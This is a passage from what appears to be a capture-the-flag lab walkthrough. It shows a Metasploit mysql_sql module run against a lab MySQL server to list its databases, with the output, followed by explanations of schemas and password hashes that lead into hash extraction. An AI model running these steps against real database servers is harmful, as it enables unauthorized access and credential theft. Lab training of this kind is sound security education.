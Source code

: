 `5.7.29-0ubuntu0.18.04.1`

Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?

```
msf5 auxiliary(admin/mysql/mysql_sql) > set SQL show databases
SQL => show databases
msf5 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.91.253

[*] 10.10.91.253:3306 - Sending statement: 'show databases'...
[*] 10.10.91.253:3306 -  | information_schema |
[*] 10.10.91.253:3306 -  | mysql |
[*] 10.10.91.253:3306 -  | performance_schema |
[*] 10.10.91.253:3306 -  | sys |
[*] Auxiliary module execution completed
```

`4`

## Task 10 Exploiting MySQL

**What do we know?**

Let's take a sanity check before moving on to try and exploit the database fully, and gain more sensitive information than just database names. We know:

1. MySQL server credentials
2. The version of MySQL running
3. The number of Databases, and their names.

**Key Terminology**

In order to understand the exploits we're going to use next- we need to understand a few key terms.

**Schema:**

In MySQL, physically, a schema is synonymous with a database. You can substitute the keyword "SCHEMA" instead of DATABASE in MySQL SQL syntax, for example using CREATE SCHEMA instead of CREATE DATABASE. It's important to understand this relationship because some other database products draw a distinction. For example, in the Oracle Database product, a schema represents only a part of a database: the tables and other objects owned by a single user.

**Hashes:**

Hashes are, very simply, the product of a cryptographic algorithm to turn a variable length input into a fixed length output.

In MySQL hashes can be used in different ways, for instance to index data into a hash table. Each hash has a unique ID that serves as a pointer to the original data. This creates an index that is significantly smaller than the original data, allowing the values to be searched and accessed more efficiently

However, the data we're going to be extracting are password hashes which are simply a way of storing passwords not in plaintext format.

Lets get cracking.
